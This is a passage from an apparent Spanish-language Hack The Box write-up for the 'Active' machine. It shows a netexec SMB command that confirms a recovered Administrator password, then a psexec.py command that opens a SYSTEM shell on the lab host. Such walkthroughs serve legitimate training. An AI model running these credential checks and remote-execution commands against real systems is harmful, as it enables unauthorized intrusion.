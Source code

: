 Para comprobar que la contraseña es correcta usaremos `netexec` de la siguiente forma.

```bash
netexec smb 10.10.10.100 -u 'Administrator' -p 'Ticketmaster1968'
```

Tal y como vemos a continuación podremos corroborar que la contraseña para el usuario **Administrator** es la correcta.

![](<../assets/images/posts/2025-05-29-active/Pasted image 20250116163047.png>)

Como el puerto **5985** no está abierto nos conectaremos usando `psexec.py` de la siguiente forma.

```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd.exe
```

Observamos como finalmente ganamos acceso a la máquina víctima como el usuario **Administrator** (**nt authority\\system**).

![](<../assets/images/posts/2025-05-29-active/Pasted image 20250116155705.png>)